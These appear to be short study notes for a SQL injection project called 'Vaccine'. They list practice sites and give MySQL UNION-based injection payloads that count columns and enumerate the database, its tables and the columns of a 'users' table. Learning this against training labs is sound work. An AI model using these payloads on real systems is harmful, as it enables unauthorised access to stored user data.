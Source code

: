 # Vaccine

# Websites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```
- Get database name
```
' UNION SELECT DATABASE(), DATABASE()
```
- Get table_names
```
' UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users'#
```
